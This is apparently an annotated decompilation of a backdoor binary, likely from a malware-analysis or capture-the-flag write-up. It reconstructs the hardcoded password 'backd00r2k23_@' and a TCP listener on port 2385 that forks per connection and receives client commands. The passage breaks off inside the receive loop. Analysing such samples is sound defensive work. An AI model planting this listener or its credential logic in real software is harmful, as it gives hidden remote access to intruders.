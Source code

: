 ```c
  // Setting up an authentication string (password) in the format of an encoded string
  local_1027 = 0x723030646b636162;  // r00dkcab -> little-endian (bytes reversed in memory) = backd00r
  local_101f = 0x33326b32;          // 32k2 -> little-endian (bytes reversed in memory) = 2k23
  local_101b = 0x5f40;              // @_ -> little-endian (bytes reversed in memory) = _@
  local_1019 = 0;                   // null
  
  sVar4 = strlen((char *)&local_1027);
  
  // Creates a TCP/IP socket
  iVar1 = socket(2, 1, 0);  // AF_INET (IPv4), SOCK_STREAM (TCP), protocol 0 (IP)
  if (iVar1 < 0) {
    perror("socket");
    uVar5 = 0xffffffff; 
  }
  else {
    // Configures the server's address and port
    local_1048.sa_family = 2;  // AF_INET (IPv4)
    local_1048.sa_data._0_2_ = htons(0x951);  // Port 2385 (0x951 in hexadecimal)
    local_1048.sa_data[2] = '\0';
    local_1048.sa_data[3] = '\0';
    local_1048.sa_data[4] = '\0';
    local_1048.sa_data[5] = '\0';
    
    // Binds the socket to the address and port
    iVar2 = bind(iVar1, &local_1048, 0x10);
    if (iVar2 < 0) {
      perror("bind");
      uVar5 = 0xffffffff;
    }
    else {
      // Listens for incoming connections, allowing up to 5 pending connections
      iVar2 = listen(iVar1, 5);
      if (iVar2 < 0) {
        perror("listen");
        uVar5 = 0xffffffff;
      }
      else {
        signal(0x11, (__sighandler_t)0x1);
        
        do {
          // Accepts a connection from a client
          iVar2 = accept(iVar1, (sockaddr *)0x0, (socklen_t *)0x0);
          if (iVar2 < 0) {
            perror("accept");
            uVar5 = 0xffffffff;
            goto LAB_00101653;
          }
          
          // Creates a child process to handle the connection
          _Var3 = fork();
          if (_Var3 < 0) {
            perror("fork");
            uVar5 = 0xffffffff; 
            goto LAB_00101653;
          }
        } while (_Var3 == 0); 
        
        // Loop to receive commands from the client
        while( true ) {
          // Receives data from the client
          sVar8 = recv(iVar2, local_1018, 0x1000, 0);
          if ((int)sVar8 < 1) break;
```